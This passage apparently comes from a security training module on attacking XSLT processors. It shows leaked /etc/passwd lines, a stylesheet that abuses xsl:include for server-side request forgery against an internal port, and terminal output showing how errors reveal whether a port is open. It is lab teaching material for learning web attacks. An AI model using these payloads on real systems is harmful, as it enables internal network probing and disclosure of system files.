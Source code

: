```shell-session
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<SNIP>
```

* `xsl:include` can be used to perform SSRF

We can also mount SSRF attacks if we have control over the transformation.

**ssrf.xsl**

Code: xml

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

**Transformation through the terminal**

Attacking XSLT

```shell-session
AIceBear@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.io.FileNotFoundException: http://127.0.0.1:5000/xslt
Failed to compile stylesheet. 1 error detected.
```

Attacking XSLT

```shell-session
AIceBear@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.net.ConnectException: Connection refused (Connection refused)
Failed to compile stylesheet. 1 error detected.
```

Check the different responses above when we hit an open or closed port. If you want to try this yourself in Pwnbox or a local machine, try executing the `saxonb-xslt` command above one time with nothing listening on port 5000 and one time with an HTTP server listening on port 5000 (`sudo python3 -m http.server 5000` in a separate tab or terminal).

We presented some tech-stack-identification XSL files at the beginning of this section. Below is one more, larger than the previous ones. Try using it to reproduce the example above.

**fingerprinting.xsl**
